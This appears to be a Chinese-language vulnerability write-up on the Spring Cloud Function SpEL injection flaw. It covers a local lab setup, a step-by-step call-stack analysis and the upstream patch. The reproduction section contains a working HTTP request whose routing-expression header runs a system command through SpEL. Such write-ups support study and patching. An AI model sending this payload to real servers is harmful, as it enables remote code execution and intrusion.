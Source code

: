 # 前言

Spring Cloud Function 是一个具有以下高级目标的项目：

- 通过函数促进业务逻辑的实现，可以将函数设置为HTTP端点。
- 将业务逻辑的开发生命周期与任何特定的运行时目标分离，以便相同的代码可以作为 Web 端点、流处理器或任务运行。
- 支持跨无服务器提供商的统一编程模型，以及独立运行（本地或在 PaaS 中）的能力。
- 在无服务器提供程序上启用 Spring Boot 功能（自动配置、依赖注入、指标

可以直接通过HTTP请求与单个的函数进行交互，同时为spring.cloud.function.definition或者spring.cloud.function.routing-expression参数提供您要调用的函数的名称

在https://www.cnblogs.com/9eek/archive/2022/04/07/16113603.html可以看到演示

而spring.cloud.function.routing-expression允许使用spel表达式

# 环境搭建

漏洞影响版本：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

spring项目

![image-20220409131432726](images/1.png)

![image-20220409131758325](images/2.png)

我使用的是3.2.2的版本

# 漏洞复现

直接启动新创建的spring项目，不用做任何修改

直接抓包修改

```
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
Content-Length: 0


```

![image-20220409132819051](images/3.png)

# 漏洞分析

参考了一些博客和官方的commit记录，最后的漏洞触发点在RoutingFunction的functionFromExpression中

![image-20220410121547957](images/4.png)

最后解析的是传入的第一个参数routingExpression，看一下可控不

找一找哪里对这个函数进行了调用，可以找到一个route方法而且在这个类里面

有好几个地方都调用了

![image-20220410123646946](images/5.png)

先从复现的调用栈来开始吧

![image-20220410121432294](images/6.png)

入口点在FunctionController的form方法里面

![image-20220410121623155](images/7.png)跟进这里的processRequest

![image-20220410121837124](images/8.png)

其实这里wrapper的headers的内容就是我们http数据包的一些请求头的内容构成的一个数组

接下来的会通过MessageBuilder.withPayload(argument).copyHeaders(headers.toSingleValueMap()).build()来请求头的信息编译成Message放入inputMessage中，最在放入input参数中，通过function.apply方法调用

跟进这里的apply方法

![image-20220410122601641](images/9.png)

接着调用doApply方法

![image-20220410122756742](images/10.png)

这里的this.target指向了RoutingFunction类，跟进apply方法来到RoutingFunction的apply方法

![image-20220410122857003](images/11.png)

跟进来到前面提到的route方法，向下步进

如果请求头存在spring.cloud.function.routing-expression字段，则进入下面的代码区域

![image-20220410124723821](images/12.png)

```
function = this.functionFromExpression((String)message.getHeaders().get("spring.cloud.function.routing-expression"), message);
```

调用了漏洞触发函数functionFromExpression并传入两个参数，第一个是请求头中的spring.cloud.function.routing-expression的值，第二个是整个message的值

跟进functionFromExpression

![image-20220410125131739](images/13.png)

对spring.cloud.function.routing-expression的值进行spel表达式解析，最后看一下getValue中this.evalContext的值

![image-20220410125223233](images/14.png)

是StandardEvaluationContext，那就没问题了，可以解析类，最后达到spel表达式注入

# 补丁分析

补丁参考地址https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

![image-20220410125926438](images/15.png)



![image-20220410130007779](images/16.png)

和大多数Spel漏洞的修复一样，都是引入了SimpleEvaluationContext来修补，这里的headerEvalContext就是使用SimpleEvaluationContext来解析的

# 写在最后

这个漏洞的理解其实并不难，和Spring Cloud Gateway一样是一个spel注入漏洞，更多的理解我觉得是对组件的一个理解，像Spring Cloud Gateway增加路由刷新路由的操作，然后会去调用什么函数走到最后spel注入的代码块，这个漏洞也一样，要去了解动态路由functionRouter，看过一些文章，他们最开始的调用栈并不是form方法，也可能也是组件版本的一些影响，但是最后都是走到了RoutingFunction的apply方法





参考链接

https://www.cnblogs.com/wh4am1/p/16062306.html

https://www.anquanke.com/post/id/271167#h2-1

https://blog.csdn.net/weixin_44112065/article/details/123965187

https://www.cnblogs.com/9eek/archive/2022/04/07/16113603.html
